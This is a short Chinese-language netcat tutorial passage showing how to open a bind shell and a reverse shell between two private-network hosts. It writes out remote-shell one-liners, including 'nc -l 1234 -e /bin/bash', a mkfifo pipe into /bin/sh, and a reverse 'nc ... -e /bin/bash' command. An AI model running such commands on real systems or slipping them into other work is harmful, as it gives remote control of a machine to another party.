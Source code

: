 可以打开一个远程主机的 bash, 对远程主机进行操作  

从本地远程打开 `192.168.11.3` 的 shell:  

* 在 192.168.11.3 上: `nc -l 1234 -e /bin/bash`  
* 在本地: `nc 192.168.11.3 1234`  

如果不支持 `-e` 或 `-c` 选项, 可以这样做:  
* 在 192.168.11.3 上:  

		$ mkfifo /tmp/tmp_fifo
		$ cat /tmp/tmp_fifo | /bin/sh 2>&1 | nc -l 1234 > /tmp/tmp_fifo

* 在本地: `nc 192.168.11.3 1234`  

### 反向 shell

在服务端访问客户端的 shell  

服务器 `192.168.11.2` 访问本地 shelk:  

* 在服务器上: `nc -l 1234`  
* 在本机: `nc 192.168.11.2 1234 -e /bin/bash`
